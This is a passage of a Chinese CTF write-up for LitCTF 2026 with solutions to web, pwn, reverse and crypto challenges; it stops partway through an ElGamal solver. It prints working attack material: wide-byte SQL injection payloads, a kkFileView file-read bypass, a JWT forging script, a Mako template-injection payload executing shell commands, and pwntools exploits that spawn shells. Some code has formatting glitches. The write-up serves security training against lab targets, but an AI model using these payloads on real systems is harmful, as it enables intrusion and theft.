队伍名称：Hnusec1

成员用户名：weixiao cinco J4toPos

队伍排名：8

# web

## lit_ezsql

进入后是一个查询页面



我们正常输入id=1，回显一行五列结果



首先是尝试了常规的 " ' \\ 但都没有触发报错，这里我们换一个思路

尝试一下宽字节注入，出现报错

```text
id=1%df%27
```

这个payload就相当于 宽字节前缀 + 单引号，在 GBK 编码下 会被数据库解释成一个合法的宽字节字符



继续测试

```text
?id=1%df%27 or 1=1%23
```



返回了两行数据，说明注入确认成功。

由于正常查询结果中页面回显了五个字段，因此可以直接尝试五列联合查询。

```text
?id=-1%df' union select 1,2,3,4,5%23
```

注入成功



查数据库

```text
?id=-1%df' union select 1,database(),3,4,5%23
```

得到

```text
ezsql
```

查表名

```text
?id=-1%df' union select 1,group_concat(table_name),3,4,5 from information_schema.tables where table_schema=database()%23
```

得到

```text
users,flag_store
```

查列名，注意这里要用十六进制绕过引号

```text
?id=-1%df' union select 1,group_concat(column_name),3,4,5 from information_schema.columns where table_name=0x666c61675f73746f7265%23
```

得到

```text
id,flag
```

最后读flag

```text
?id=-1%df' union select 1,flag,3,4,5 from flag_store%23
```



得到

```text
flag{stlqpk43-cxn2-4vp-8dve-9vdtmpqho6ndq}
```

## Northbridge Document Hub

进入后是一个登录界面



查看前端源码，发现会加载 assets/js/portal.js



看一下这个js

```js
(function () {
    var bootstrap = {
        release: "2026.03.01-r12",
        region: "cn-sh2",
        auth: {
            mode: "legacy-fallback",
            // researcher:Research#2026
            seed: "cmVzZWFyY2hlcjpSZXNlYXJjaCMyMDI2"
        },
        fileGateway: {
            path: "/kkfileview/getCorsFile",
            queryKey: "urlPath",
            node: "legacy-parse-02"
        }
    };

    window.NorthbridgePortal = {
        config: bootstrap,
        decodeLegacyCredential: function () {
            try {
                return atob(bootstrap.auth.seed);
            } catch (e) {
                return "";
            }
        }
    };

    var form = document.querySelector("form[data-auth='portal']");
    if (form) {
        form.addEventListener("submit", function () {
            form.classList.add("is-submitting");
        });
    }
})();
```

有一个base64

```text
cmVzZWFyY2hlcjpSZXNlYXJjaCMyMDI2
```



可以拿到密码去登录

```text
researcher
Research#2026
```

登录后进入



这里检索一下有没有 kkFileView 的 cve

这里有一个 CVE-2021-43734

https://blog.csdn.net/weixin_44304678/article/details/134320057

可以构造poc

```text
/kkfileview/getCorsFile?urlPath=file:///etc/passwd
```

但是如果直接发会失败，说明设了一个简单的waf

根据源码猜测可能是要base64编码绕过，尝试进行一下编码

```text
file:///etc/passwd
ZmlsZTovLy9ldGMvcGFzc3dk
```



实现绕过，可以任意文件读取


这里我们去读的是

```text
/root/.bash_history
```

也就是

```text
ZmlsZTovLy9yb290Ly5iYXNoX2hpc3Rvcnk=
```

得到

```bash
cd /opt/kkfileview/bin
./startup.sh --cache.dir=/opt/kkfileview/cache/parsed
java -jar kkFileView.jar --cache.dir=/opt/kkfileview/cache/parsed --forceUpdatedCache=true
cp /opt/kkfileview/cache/parsed/q1_finance_report_2026.zip /tmp/q1_finance_report_2026.zip
```

我们直接去读

```text
/opt/kkfileview/cache/parsed/q1_finance_report_2026.zip
```

解压后拿到flag



```text
flag{fic9nvxj-lyyc-4zq-8iv6-rbjnqwyfjbbre}
```

## 华辰企业服务运营平台

进入后是一个运营平台，进入系统需要登录



dirsearch扫一下，可以发现有一个 /actuator



访问后暴露一些路由



我们直接去读

```text
/actuator/env
```

可以直接拿到flag

```text
flag{ijap7qay-mqfe-4yo-8pk3-cchdrmx9ckloj}
```



## lit_reverse_my_web

题目给了一个exe附件，为什么web手还得会逆向（）

扔进ida,分析main



也就是 Go 源码大致长这样：

```go
// internal/jwtsecret/jwtsecret.go
var encKey = []byte{
    0x28,0x17,0x2D,0x05, 0x68,0x6A,0x68,0x6C,
    0x05,0x36,0x33,0x2E, 0x39,0x2E,0x3C,0x05,
    0x30,0x2D,0x2E,0x05, 0x29,0x3F,0x39,0x28,
    0x3F,0x2E,0x05,0x31, 0x3F,0x23,0x7B,0x7B,
}

func Key() []byte {
    out := make([]byte, len(encKey))
    for i, b := range encKey {
        out[i] = b ^ 0x5A
    }
    return out
}
```

提取 encKey

`reverseMyWeb\_internal\_jwtsecret\.encKey` 实际是一个 slice header，位于 `\.data` 段：

```text
0xF68950: E0 E6 F0 00 00 00 00 00   // ptr  -> 0xF0E6E0
0xF68958: 20 00 00 00 00 00 00 00   // len  = 32
0xF68960: 20 00 00 00 00 00 00 00   // cap  = 32
```

读 `0xF0E6E0` 的 32 字节：

```text
28 17 2D 05 68 6A 68 6C 05 36 33 2E 39 2E 3C 05
30 2D 2E 05 29 3F 39 28 3F 2E 05 31 3F 23 7B 7B
```

逐字节 XOR `0x5A`：

|`0x28`|`0x17`|`0x2D`|`0x05`|`0x68`|`0x6A`|`0x68`|`0x6C`|
|---|---|---|---|---|---|---|---|
|`r`|`M`|`w`|`\_`|`2`|`0`|`2`|`6`|

完整字符串：

```text
rMw_2026_litctf_jwt_secret_key!!
```

main.signJWT：claims 结构

```c
// main.(*app).signJWT @ 0x9492a0
v16.RegisteredClaims.Issuer.str    = "reverseMyWeb";
v16.RegisteredClaims.Issuer.len    = 12;
v16.RegisteredClaims.Subject       = sub;
v16.RegisteredClaims.IssuedAt      = now (truncated);
v16.RegisteredClaims.ExpiresAt     = now + *24h*;
v16.Role                           = role;
SignedString(app.jwtKey)           // HS256
```

对应 Go 结构：

```go

```go
type claims struct {
    Role string `json:"role"`
    jwt.RegisteredClaims
}
```

签发时算法是 `SigningMethodHS256`

main\.parseToken：鉴权来源

```c
// main.(*app).parseToken @ 0x949660
hdr = req.Header.Get("Authorization")
if strings.ToLower(hdr).hasPrefix("bearer ") {
    raw = strings.TrimSpace(hdr[7:])
} else if c, _ := req.Cookie("token"); c != nil {
    raw = c.Value
}
ParseWithClaims(raw, &main.claims{}, func(t) (interface{}, error) {
    return app.jwtKey, nil
})
```

也就是 token 可以放在 `Authorization: Bearer \&lt;jwt\&gt;` 或 `Cookie: token=\&lt;jwt\&gt;`。

main\.handleFlag：访问控制

```c
// main.(*app).handleFlag @ 0x9486a0
c = parseToken(req);
if (!c.ok)                      → 401 "会话无效或已过期"
if (c.role != "admin"           // 0x6e + 'admi' (1768776801)
        || len(c.role) != 5)    → 403 "您暂无此资源的访问权限"

data = os.ReadFile("/flag");
if wantsJSON(req): JSON {"content": strings.TrimSpace(data)}
else:              text/plain
```

> `1768776801 == \&\#39;admi\&\#39;\(LE\)`、紧跟 `\&\#39;n\&\#39;`，长度 5 — 即字符串 `\&\#34;admin\&\#34;`。
> 
> 

接下来访问靶机，访问后是一个工作台，可以登录



先拿dirsearch扫，可以得到

```bash
GET  /
GET  /login
POST /login
GET  /register
POST /register
POST /logout
GET  /flag
GET  /static/*
```



我们直接用刚才拿到的key伪造JWT

```text
*// header*
{"alg":"HS256","typ":"JWT"}

*// payload*
{"role": "admin","sub":  "admin","iss":  "reverseMyWeb","iat":  <now>,"exp":  <now + 86400>}
```

签名 = `HMAC\_SHA256\(secret, base64url\(header\) \+ \&\#34;\.\&\#34; \+ base64url\(payload\)\)`。

解题脚本如下

```python
import hmac
import hashlib
import base64
import json
import time
import urllib.request
import urllib.error

SECRET = b"rMw_2026_litctf_jwt_secret_key!!"
TARGET = "http://challenge.cyclens.tech:31020"

def b64u(data: bytes) -> str:
    return base64.urlsafe_b64encode(data).rstrip(b"=").decode()

def forge_jwt(role: str = "admin", sub: str = "admin",
              iss: str = "reverseMyWeb", ttl: int = 86400) -> str:
    header = {"alg": "HS256", "typ": "JWT"}
    now = int(time.time())
    payload = {
        "role": role,
        "sub":  sub,
        "iss":  iss,
        "iat":  now,
        "exp":  now + ttl,
    }
    h = b64u(json.dumps(header,  separators=(",", ":")).encode())
    p = b64u(json.dumps(payload, separators=(",", ":")).encode())
    sig = hmac.new(SECRET, f"{h}.{p}".encode(), hashlib.sha256).digest()
    return f"{h}.{p}.{b64u(sig)}"

def get_flag(token: str) -> str:
    req = urllib.request.Request(
        TARGET + "/flag",
        headers={
            "Authorization": "Bearer " + token,
            "Cookie":        "token=" + token,
            "Accept":        "application/json",
        },
    )
    with urllib.request.urlopen(req, timeout=20) as r:
        return r.read().decode("utf-8", errors="replace")

def decode_enc_key():
  
    enc_key = bytes.fromhex(
        "28172D05686A686C0536332E392E3C05"
        "302D2E05293F39283F2E05313F237B7B"
    )
    plain = bytes(b ^ 0x5A for b in enc_key)
    print("[*] encKey  :", enc_key.hex())
    print("[*] secret  :", plain.decode())
    assert plain == SECRET

if __name__ == "__main__":
    decode_enc_key()

    token = forge_jwt()
    print("[*] forged JWT:")
    print(token)

    print("[*] requesting /flag ...")
    try:
        body = get_flag(token)
        print("[+] response:")
        print(body)
    except urllib.error.HTTPError as e:
        print(f"[-] HTTP {e.code}")
        print(e.read().decode(errors="replace"))

```

运行拿到flag



```text
flag{ivwqa2na-6enh-4yt-8bhr-3l5y8zkmygyx4}
```

## lit\_ezssti

进入后可以发现是一个模版渲染表单，那肯定就是打ssti了

测试一下常见的payload，比如\{\{7\*7\}\}等等，发现都没用，直到试了下面这个

```text
%if 1%
```

触发报错



根据这些字符串，可以推测是mako模版

fuzz一下，可以得到以下黑名单

```text
[ ]
=
.
<%=
${
flag
self.
```

在mako中，可以用 \&lt;% \.\.\. %\&gt; 执行python代码，但是没有回显，这里我们可以用 

```text
raise Exception
```

实现渲染异常，从而得到回显

```text
<% from os import popen; raise Exception(getattr(popen("whoami"), "read")()) %>
```



然后用from os import popen绕过os\.popen

getattr\(obj, \&\#34;read\&\#34;\)\(\) 绕过 \.read\(\)

用chr拼接绕过flag

payload如下

```python
<% from os import popen; raise Exception(getattr(popen(chr(99)+chr(97)+chr(116)+chr(32)+chr(47)+chr(102)+chr(108)+chr(97)+chr(103)),chr(114)+chr(101)+chr(97)+chr(100))()) %>
```

拿到flag



```text
flag{1wuiv7yx-mfmi-4uw-8usy-jhnfwupf1veau}
```

# Pwn

## lit\_ret2text32

简单签到题





栈溢出有后门

```python
from pwn import *
context(os='linux', log_level='debug')
p = process('./ret2text32')
#p=remote("challenge.cyclens.tech",30425)
elf=ELF("./ret2text32")

bk=0x8049213
payload=b'a'*0x3c+p64(bk)
p.sendlineafter("Input: ",payload)

p.interactive()
```



## lit\_ret2shellcode





栈段可执行，又泄露出了栈地址

直接向栈内写入shellcode，然后控制执行流到buf

```python
from pwn import *
context(os='linux', log_level='debug',arch='amd64')
#p = process('./ret2shellcode')
p=remote("challenge.cyclens.tech",31103)
elf=ELF("./ret2shellcode")

p.recvuntil(b'0x')
buf=int(p.recv(12),16)
log.info("buf:"+hex(buf))

shellcode=asm(shellcraft.sh())
payload=shellcode.ljust(0x78,b'a')
payload+=p64(buf)
p.sendlineafter("Leave your mark on the stack: ",payload)

p.interactive()
```



## lit\_integer\_overflow



有后门backdoor，有栈溢出，只不过需要绕过对size的检测

注意到size比较时是unsigned int类型，整数溢出，输入\-1

\-1\&lt;0x40，绕过检测，同时负数转化为0xff……溢出空间足够大

```python
from pwn import *
context(os='linux', log_level='debug',arch='amd64')
p = process('./integer_overflow')
#p=remote("challenge.cyclens.tech",31104)
elf=ELF("./integer_overflow")

bk=0x4011D8 
p.sendlineafter("(0-63): ",b'-1')
payload=b'a'*0x48+p64(bk)
p.sendline(payload)

p.interactive()
```



## lit\_ropchain



rop链，gadget都给出来了，有system没有binsh

先向bss段read一个/bin/sh\\x00

```c++
read(0,bss,0x10)
```

然后打出

system\(\&\#34;/bin/sh\&\#34;\)

```sql
from pwn import *
context(os='linux', log_level='debug',arch='amd64')
#p = process('./ropchain')
p=remote("challenge.cyclens.tech",31002)
elf=ELF("./ropchain")

pop_rdi=0x401166
pop_rsi=0x40116B
pop_rdx=0x401170
bss = elf.bss() + 0x500
read=elf.plt["read"]
system=elf.plt["system"]

payload = b'a'*0x48
payload += p64(pop_rdi)
payload += p64(0)
payload += p64(pop_rsi)
payload += p64(bss)
payload += p64(pop_rdx)
payload += p64(0x10)
payload += p64(read)
payload += p64(pop_rdi)
payload += p64(bss)
payload += p64(system)
p.sendlineafter("Input: ",payload)

p.sendline(b'/bin/sh')

p.interactive()
```



## lit\_ret2syscall32



gadget很全，栈溢出空间足够，唯一一个问题是没有可用的/bin/sh

先调用read函数向bss段写binsh，然后返回到vuln

然后用syscall调用execve\(\&\#34;/bin/sh\&\#34;,0,0\)

```python
from pwn import *
context(os='linux', log_level='debug')
#p = process('./ret2syscall32')
p=remote("challenge.cyclens.tech",30689)
elf=ELF("./ret2syscall32")

pop_eax=0x80491A6 
pop_ebx=0x80491AB
pop_ecx_ebx=0x80491B0
pop_edx=0x80491B6
int80=0x80491C1
bss=elf.bss()+0x200
#gdb.attach(p)
payload = flat(
    b"A" * 0x4c,
    elf.plt["read"],
    elf.sym["vuln"],    
    0,
    bss,
    10,
)

p.sendlineafter("Input: ",payload)
pause()
p.sendline(b'/bin/sh\x00')

payload = flat(
    b"A" * 0x4c,
    pop_eax,
    0xb,
    pop_ecx_ebx, 0, bss,
    pop_edx, 0,
    int80
)
p.sendlineafter("Input: ",payload)

p.interactive()lit_ret2libc
```



## lit\_ret2libc



leak可以泄露地址，把got表当作参数传入即可泄露libc

这里出了问题，跳回到vuln失败

不懂怎么回事，只能用其他方法打了

把 saved rbp 伪造成 \.bss\+0x40，然后跳到 vuln 里现成的 read 准备位置。这样程序会把第二阶段 payload 直接读进 \.bss，最后用函数尾的 leave; ret 把栈迁移过去。

第二阶段

在 \.bss 里放一个 \&\#34;/bin/sh\\x00\&\#34; 和 argv = \{\&\#34;/bin/sh\&\#34;, NULL\}，然后 ROP 调：

`execve\(\&\#34;/bin/sh\&\#34;, argv, NULL\)`

```python
from pwn import *
context(os='linux', log_level='debug',arch='amd64')
#p = process('./ret2libc')
p=remote("challenge.cyclens.tech",31534)
elf=ELF("./ret2libc")
libc=ELF("./libc_remote.so")

ret=0x40101A
pop_rdi=0x4011B7
leak=0x4011C3
read_setup=0x40121B
bss=elf.bss()+0x800
fake_rbp=bss+0x40

stage1 = flat(
    b'a'*0x40,
    p64(fake_rbp),
    p64(ret),
    p64(pop_rdi),
    elf.got["puts"],
    p64(leak),
    p64(read_setup)
)
p.sendlineafter("Tell me your name: ",stage1)
p.recvuntil(b'0x')
puts=int(p.recv(12),16)
log.info("puts:"+hex(puts))

libc_base=puts-libc.sym["puts"]
execve=libc_base+libc.sym["execve"]
pop_rsi=libc_base+0x2be51
pop_rdx_r12=libc_base+0x11f367
ret2=libc_base+0x29139
log.info(hex(libc_base))
log.info(hex(execve))

binsh=bss+0x100
argv=bss+0x120

payload=bytearray(b'\x00'*0x180)
payload[0x100:0x108]=b'/bin/sh\x00'
payload[0x120:0x130]=flat(p64(binsh),p64(0))
rop=flat(
    p64(ret2),
    p64(pop_rdi),p64(binsh),
    p64(pop_rsi),p64(argv),
    p64(pop_rdx_r12),p64(0),p64(0),
    p64(execve)
)
payload[0x40:0x48]=p64(0)
payload[0x48:0x48+len(rop)]=rop
p.send(bytes(payload))

p.interactive()
```



# Reverse

## lit\_rc4\_variant

程序拖入IDA，找到main函数，输入长度要求29



把输入复制到加密缓冲



加密缓冲约定

**KSA 第一阶段：\`S\[i\] = i\` 和 \`K\[i\] = key\[i % 12\]**





**KSA 第二阶段**



**PRGA \+ XOR**



总结这套魔改算法（`encrypt\(input\)`）：

```text
S[64] = 0..63
K[i]  = key[i % len(key)]            for i in 0..63
j = 0
for i in 0..63:
    j = (j + S[i] + K[i]) mod 64
    swap(S[i], S[j])                 # 标准 KSA，但模 64 而不是 256

i = j = 0
for each byte b of plaintext:
    i = (i + 1) mod 64
    j = (j + S[i]) mod 64
    t = (S[i] + S[j]) mod 64         # ← 这里是 mod 64！
    swap(S[i], S[j])
    ks = (S[i] + S[t]) mod 256       # ← 输出是 “两个 S 项相加”，不是 S[(S[i]+S[j])&0xFF]
    cipher_byte = b ^ ks
```

**比对密文**



**解题脚本**

```python
key = b"lit_rc4_key!"
ct = bytes([0x7b,0x3d,0x38,0x77,0x4e,0x72,0x42,0x7d,0x45,0x37,0x76,0x0f,
            0x53,0x53,0x4f,0x66,0x37,0x17,0x75,0x37,0x5f,0x49,0x58,0x72,
            0x74,0x7f,0x79,0x1f,0x3a])

S = list(range(64))
K = [key[i % len(key)] for i in range(64)]

j = 0
for i in range(64):
    j = (j + S[i] + K[i]) % 64
    S[i], S[j] = S[j], S[i]

i = j = 0
out = bytearray()
for c in ct:
    i = (i + 1) % 64
    s_i_old = S[i]
    j = (j + s_i_old) % 64
    s_j_old = S[j]
    t = (s_i_old + s_j_old) % 64
    # swap
    S[i], S[j] = S[j], S[i]
    # keystream = S[i]_new + S[t]   where S[t] uses post-swap state
    K_byte = (S[i] + S[t]) & 0xFF
    out.append(c ^ K_byte)

print("Plaintext:", out)
try:
    print("Decoded:", out.decode())
except UnicodeDecodeError:
    print("Not pure ASCII")

```

LitCTF\{rev05\_rc4\_variant\_64\!\}

## lit\_tea\_standard

main函数如下



几个关键点：

1. 明文长度：填充后 v7 == 32，意味着原 flag 长度落在 25\.\.31（含 31，但 31 时填一个 \\x01，长度则达到 32）。

2. 轮数 / delta：循环条件 i \!= \-957401312 即 i \!= 0xC6EF3720，恰好等于 32 \* 0x9E3779B9，标准 TEA 32 轮。

3. 密钥：把 \+ 形式里出现的负常量按无符号还原

16 \* v 在 TEA 里就是 v \&lt;\&lt; 4，对应分支：

- v1 \+= \(\(v0 \&lt;\&lt; 4\) \+ k0\) ^ \(v0 \+ sum\) ^ \(\(v0 \&gt;\&gt; 5\) \+ k1\)

- v0 \+= \(\(v1 \&lt;\&lt; 4\) \+ k2\) ^ \(v1 \+ sum\) ^ \(\(v1 \&gt;\&gt; 5\) \+ k3\)

再看一眼密文 g\_cipher（位于 \.rdata: 0x140012040，32 字节）：



解题脚本

```python
import struct

ct = bytes.fromhex(
      "edef21feb79b3cb0"
      "1e9372e2023e29bc"
      "36f70c922e5aae46"
      "44fa45251ae58c87"
  )

k0, k1, k2, k3 = 0xCAFEBABE, 0xDEADBEEF, 0xA11CEFAC, 0xB00B1E00
delta = 0x9E3779B9
M = 0xFFFFFFFF

def decrypt_block(v0, v1):
      s = (32 * delta) & M
      for _ in range(32):
          v1 = (v1 - ((((v0 << 4) + k0) ^ (v0 + s) ^ ((v0 >> 5) + k1))) ) & M
          v0 = (v0 - ((((v1 << 4) + k2) ^ (v1 + s) ^ ((v1 >> 5) + k3))) ) & M
          s  = (s - delta) & M
      return v0, v1

pt = b""
for i in range(0, len(ct), 8):
      v0, v1 = struct.unpack("<II", ct[i:i+8])
      p0, p1 = decrypt_block(v0, v1)
      pt += struct.pack("<II", p0, p1)

pad = pt[-1]
print(pt[:-pad].decode())
```

LitCTF\{rev03\_tea\_standard\!\!\}

## lit\_b64\_alphabet

IDA打开程序，逻辑全在main函数，就是一个换了字母表的Base64



每 3 字节 \-\&gt; 24 bit \-\&gt; 拆 4 段 6 bit \-\&gt; 查表 `g\_alphabet`

- 末尾不足 3 字节用 `=` 补齐

- 编码结果与 `g\_expected` 直接 `strcmp`

字母表

```python
2KuEphj84USZF67iloxzfYd+MrDgRG9yLwBnHAXcJq3eCN/s1bOQ5TvPa0tVkWmI
```

密文比对加判断



解题脚本

```python
import base64

# 0x140012080: 自定义 Base64 字母表
CUSTOM_ALPHABET = "2KuEphj84USZF67iloxzfYd+MrDgRG9yLwBnHAXcJq3eCN/s1bOQ5TvPa0tVkWmI"

# RFC 4648 标准 Base64 字母表
STD_ALPHABET = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/"

# 0x140012040: 程序内嵌的期望密文
EXPECTED = "zjA5lToj9PUAGn2O+v6TRPosgYWB6noyGjhBgjfwyl=="

def solve(ciphertext: str) -> str:
    assert len(CUSTOM_ALPHABET) == 64 and len(set(CUSTOM_ALPHABET)) == 64
    trans = str.maketrans(CUSTOM_ALPHABET, STD_ALPHABET)
    mapped = ciphertext.translate(trans)
    return base64.b64decode(mapped).decode()

if __name__ == "__main__":
    flag = solve(EXPECTED)
    print("[+] mapped :", EXPECTED.translate(str.maketrans(CUSTOM_ALPHABET, STD_ALPHABET)))
    print("[+] flag   :", flag)
```

LitCTF\{rev02\_custom\_b64\_table\!\}

## lit\_xor\_chain

main函数如下：



逻辑非常直白：

1. 读入 30 字节字符串。

2. 对每个字节先 `xor 0x52`，再 `\+ 5`。

3. 与 `g\_expected` 数组逐字节比较。



**解题脚本**

```python
expected = bytes([
    0x23, 0x40, 0x2B, 0x16, 0x0B, 0x19, 0x2E, 0x25,
    0x3C, 0x29, 0x67, 0x68, 0x12, 0x2F, 0x42, 0x25,
    0x12, 0x2B, 0x3F, 0x3C, 0x41, 0x12, 0x38, 0x3B,
    0x3B, 0x12, 0x42, 0x3E, 0x78, 0x34,
])

flag = bytes(((b - 5) & 0xFF) ^ 0x52 for b in expected)
print(flag.decode())
```

LitCTF\{rev01\_xor\_then\_add\_ok\!\}

## lit\_xtea\_tweak

输入先8字节对齐



PKC\#7风格填充



明文长度32



魔改的xtea算法

- 4 × 32\-bit 子密钥 `g\_key`

- 64\-bit 块,32 轮

- 但常量 `delta` 被换成了 `0xDEADBEEF`

    - `559038737 == 0x21524111 == \-0xDEADBEEF \(mod 2^32\)`,所以 `i \-= 559038737` 即 `i \+= 0xDEADBEEF`

    - 终止值 `\-709370400 == 0xD5C593E0 == \(0xDEADBEEF \* 32\) \&amp; 0xFFFFFFFF`



用到的数据



解题脚本

```python
import struct

CIPHER = bytes([
    0xE3, 0xEE, 0x1E, 0xE7, 0xD3, 0xA7, 0x96, 0x6F,
    0xC6, 0xA7, 0xB9, 0xE1, 0xB9, 0x4E, 0x67, 0x86,
    0x5F, 0x03, 0x04, 0xA6, 0xDB, 0xBB, 0xB9, 0x40,
    0x56, 0x3A, 0xF7, 0x9E, 0xEE, 0x64, 0xD4, 0x06,
])

KEY = [0x11111111, 0x22222222, 0x33333333, 0x44444444]

DELTA  = 0xDEADBEEF
ROUNDS = 32
MASK   = 0xFFFFFFFF

def xtea_decrypt_block(v0: int, v1: int, key, rounds=ROUNDS, delta=DELTA):

    s = (delta * rounds) & MASK
    for _ in range(rounds):
        v1 = (v1 - ((((v0 << 4) ^ (v0 >> 5)) + v0) & MASK ^ (s + key[(s >> 11) & 3]) & MASK)) & MASK
        s  = (s - delta) & MASK
        v0 = (v0 - ((((v1 << 4) ^ (v1 >> 5)) + v1) & MASK ^ (s + key[s & 3]) & MASK)) & MASK
    return v0, v1

def main():
    plain = b""
    for i in range(0, len(CIPHER), 8):
        a, b = struct.unpack("<II", CIPHER[i:i+8])
        a, b = xtea_decrypt_block(a, b, KEY)
        plain += struct.pack("<II", a, b)

    pad = plain[-1]
    if 1 <= pad <= 8 and plain.endswith(bytes([pad]) * pad):
        plain = plain[:-pad]

    print("flag:", plain.decode())

if __name__ == "__main__":
    main()


```

LitCTF\{rev04\_xtea\_delta\_twk\!\}

# Crypto

## lit\_xor\_two\_story

题目原件是一个py脚本

```python
#!/usr/bin/env python3
"""
LitCTF2026 — One-time pad reused for two messages (40 bytes each).

Players receive output.txt and README; they do not receive secret.py.
"""
from __future__ import annotations

import argparse
import os
from pathlib import Path

try:
    from secret import M1_FLAG
except ImportError:
    raise SystemExit(
        "secret.py (organizer) is required to generate ciphertext; "
        "players work from output.txt only."
    )

# Public second message — duplicated in README for contestants.
M2_KNOWN = b"litctf2026_xor_keystream_reuse_40bytes!!"

assert len(M1_FLAG) == len(M2_KNOWN) == 40


def xor_bytes(a: bytes, b: bytes) -> bytes:
    return bytes(x ^ y for x, y in zip(a, b))


def main() -> None:
    parser = argparse.ArgumentParser()
    parser.add_argument(
        "--write",
        type=Path,
        help="Write hex lines to file.",
    )
    args = parser.parse_args()

    n = len(M1_FLAG)
    k = os.urandom(n)
    c1 = xor_bytes(M1_FLAG, k)
    c2 = xor_bytes(M2_KNOWN, k)

    lines = [
        f"c1 = {c1.hex()}",
        f"c2 = {c2.hex()}",
        f"len = {n}",
    ]
    text = "\n".join(lines) + "\n"
    print(text, end="")
    if args.write:
        args.write.write_text(text, encoding="utf-8")


if __name__ == "__main__":
    main()

# c1 = 5f70a847ce12759e156e3cad1aa9530a119386a02ffc1c31bf14ab7a0a82ccc108f8476f75c98a28
# c2 = 5f70a847ce123cc153283ca710ae7f042b8490a238eb2228970fad6a2694f2985dc5557e69e5f474
# len = 40
```

核心逻辑：

```python
M2_KNOWN = b"litctf2026_xor_keystream_reuse_40bytes!!"   # 40 字节，已公开
assert len(M1_FLAG) == len(M2_KNOWN) == 40

n = len(M1_FLAG)
k = os.urandom(n)               # 随机密钥
c1 = xor_bytes(M1_FLAG, k)      # 加密 flag
c2 = xor_bytes(M2_KNOWN, k)     # 用同一把 k 加密公开消息
```

输出：

```text
c1 = 5f70a847ce12759e156e3cad1aa9530a119386a02ffc1c31bf14ab7a0a82ccc108f8476f75c98a28
c2 = 5f70a847ce123cc153283ca710ae7f042b8490a238eb2228970fad6a2694f2985dc5557e69e5f474
len = 40
```

关键点：**同一把一次性密钥 \`k\` 被用于两条消息**，且其中一条 \`M2\` 完全已知。这是经典的 OTP key‑reuse（two‑time pad）漏洞。

**求解脚本**

```python
c1 = bytes.fromhex("5f70a847ce12759e156e3cad1aa9530a119386a02ffc1c31bf14ab7a0a82ccc108f8476f75c98a28")
c2 = bytes.fromhex("5f70a847ce123cc153283ca710ae7f042b8490a238eb2228970fad6a2694f2985dc5557e69e5f474")
m2 = b"litctf2026_xor_keystream_reuse_40bytes!!"

flag = bytes(a ^ b ^ c for a, b, c in zip(c1, c2, m2))
print(flag.decode())
```



litctf\{otp\_reuse\_never\_twice\_same\_key\_\_\}

## lit\_elgamal\_handshake

题目原件

```python
#!/usr/bin/env python3
"""
LitCTF2026 — ElGamal handshake (story)
Someone left debug logging on; the private exponent x was printed alongside ciphertext.
"""
from __future__ import annotations

import argparse
from pathlib import Path
from random import randrange

from Crypto.Util.number import bytes_to_long, getPrime, getRandomRange

try:
    from secret import FLAG
except ImportError as e:
    raise SystemExit("secret.py (FLAG) is required to encrypt.") from e


def generate_elgamal_keypair(bits: int = 512) -> tuple[int, int, int, int]:
    p = getPrime(bits)
    for _ in range(1000):
        g = getRandomRange(2, min(6, p - 1))
        if pow(g, (p - 1) // 2, p) != 1:
            break
    else:
        raise RuntimeError("could not find suitable g")
    x = randrange(2, p - 1)
    y = pow(g, x, p)
    return p, g, y, x


def main() -> None:
    parser = argparse.ArgumentParser()
    parser.add_argument(
        "--write",
        type=Path,
        help="Write captured output to this file (for organizers).",
    )
    args = parser.parse_args()

    p, g, y, x = generate_elgamal_keypair(bits=512)
    k = randrange(1, p - 2)
    m = bytes_to_long(FLAG)
    if m >= p:
        raise ValueError("flag too large for chosen p — shorten FLAG")

    c1 = pow(g, k, p)
    c2 = (m * pow(y, k, p)) % p

    lines = [
        "=== Public key (p, g, y) ===",
        f"p = {p}",
        f"g = {g}",
        f"y = {y}",
        "",
        "=== Ciphertext (c1, c2) ===",
        f"c1 = {c1}",
        f"c2 = {c2}",
        "",
        "# [DEBUG] prod accidentally logged the long-term secret:",
        f"x = {x}",
    ]
    text = "\n".join(lines) + "\n"
    print(text, end="")
    if args.write:
        args.write.write_text(text, encoding="utf-8")


if __name__ == "__main__":
    main()

# === Public key (p, g, y) ===
# p = 9000784855376359808051354825193962042770028561343848432778443672755982397391267124312572697249531643069409873722736348916207732622884411596948807031140651
# g = 3
# y = 269130883529708333054320571854006406481346665463416017026083074488011546059928157925990665431751017523964760326934454181952822744463714981243407307134357

# === Ciphertext (c1, c2) ===
# c1 = 5245857426274383693193378669425243235151460522527004924092730024427525619244222247576829782077334810173274945751493387545849499010408499951268967774043627
# c2 = 6059939492718262451327758167005534191200936922719178843825888167191062504030471358635203794720371216217447404436172970111033824674731063386612549785069654

# # [DEBUG] prod accidentally logged the long-term secret:
# x = 633366293219022684108628483753423657477324253833657141033762971761747669344649667887002347907882241246119223126492863291886751205505360049793728851371884
```

题目实现了一个标准的 ElGamal 加密方案，但在调试输出中\&\#34;意外地\&\#34;打印了长期私钥 `x`。

### **公开参数**

```text
p = 9000784855376359808051354825193962042770028561343848432778443672755982397391267124312572697249531643069409873722736348916207732622884411596948807031140651
g = 3
y = 269130883529708333054320571854006406481346665463416017026083074488011546059928157925990665431751017523964760326934454181952822744463714981243407307134357
```

### **密文**

```text
c1 = 5245857426274383693193378669425243235151460522527004924092730024427525619244222247576829782077334810173274945751493387545849499010408499951268967774043627
c2 = 6059939492718262451327758167005534191200936922719178843825888167191062504030471358635203794720371216217447404436172970111033824674731063386612549785069654
```

### **泄漏的私钥**

```text
x = 633366293219022684108628483753423657477324253833657141033762971761747669344649667887002347907882241246119223126492863291886751205505360049793728851371884
```

### **ElGamal 回顾**

加密过程：

- 选取随机数 `k`

- `c1 = g^k mod p`

- `c2 = m · y^k mod p`，其中 `y = g^x mod p`

解密过程：

- 共享秘密 `s = c1^x mod p = g^\(kx\) mod p = y^k mod p`

- 明文 `m = c2 · s^\(\-1\) mod p`

### **解题脚本**

```python
from Crypto.Util.number import long_to_bytes

p  = 9000784855376359808051354825193962042770028561343848432778443672755982397391267124312572697249531643069409873722736348916207732622884411596948807031140651
g  = 3
y  = 269130883529708333054320571854006406481346665463416017026083074488011546059928157925990665431751017523964760326934454181952822744463714981243407307134357
c1 = 5245857426274383693193378669425243235151460522527004924092730024427525619244222247576829782077334810173274945751493387545849499010408499951268967774043627
c2 = 6059939492718262451327758167005534191200936922719178843825888167191062504030471358635203794720371216217447404436172970111033824674731063386612549785069654
x  = 633366293219022684108628483753423657477324253833657141033762971761747669344649667887002347907882241246119223126492863291886751205505360049793728851371884

s = pow(c1, x, p)
m = (c2 * pow(s, -1, p)) % p
